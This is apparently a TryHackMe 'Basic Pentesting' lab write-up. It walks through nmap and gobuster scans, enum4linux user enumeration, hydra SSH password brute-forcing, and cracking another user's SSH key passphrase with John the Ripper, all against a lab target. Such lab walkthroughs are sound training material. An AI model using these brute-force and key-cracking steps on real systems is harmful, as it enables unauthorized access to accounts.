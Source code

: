 THM Basic Pentesting
In this writeup Today we're going to try to Solve a room in THM called Basic Pentesting Basic Pentesting Room The First Task :

Deploy the machine and connect to our network
Second Task :

Scan The Machine Service

open nmap

$ nmap -sC -sV -oN Result.txt 10.10.26.87

Nmap scan report for 10.10.26.87
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-02-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-02-22T10:26:54
|_  start_date: N/A
ports : 22 - 139 - 445

Now we need to take a look on the source code in main page 10.10.26.87

sorce code : enter image description here

Now we will use gobuster to search for directories with brute-force

gobuster dir -u http://10.10.26.87/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.26.87
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/16 08:40:01 Starting gobuster
===============================================================
/development (Status: 301)
Now we go to http://10.10.26.87/development/enter image description here

dev.txt:enter image description here J.txt:enter image description here

What is the username?
Now we will get user Try hack me give us a hint to get the user We have smbd open, that can give us a lot of information. We can use Enum4linux for that.

enum4linux 10.10.26.87
enter image description here after waiting for 5 minutes we get two user names

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User) <=======

users pop up, jan a.k.a. J and kay a.k.a. K (دماغ شغالة مش بتنام)

What is the password ?
we will brute-force password by hydra

└─$ hydra -l jan -P wordlist.txt ssh://10.10.26.87
login: jan & password: armando
What service do you use to access the server(answer in abbreviation in all caps)?
answer : ssh

What is the name of the other user you found(all lower case)?
answer : kay Unfortunately when we try to ssh using the key file we see the key requires a password.

jan@basic2:/home/kay/.ssh$ ssh -i id_rsa kay@127.0.0.1
Enter passphrase for key 'id_rsa':

But luckily we can cat out this file and crack the key with JohnTheRipper

Using ssh2john.py id_rsa > john_id_rsa.hash we get a john-crackable file that we can start here. john --wordlist=/usr/share/wordlists/rockyou.txt john_id_rsa.hash

But it quickly finds the password for the key file

[REDACTED]         (kay_id_rsa)

Trying again with the ssh file we easily log in with the file password and get the pass.bak!

Since there isnt a flag for this we can only think about the possible information we could do. Using an additional user we could see if it was part of any groups in /etc/groups or have programs that you can sudo Check with sudo -l . It truly depends on what is configured on a machine, but running something like LinPeas.sh will give you a good starting point!

What is the final password you obtain?
That contains our final flags!
i love u
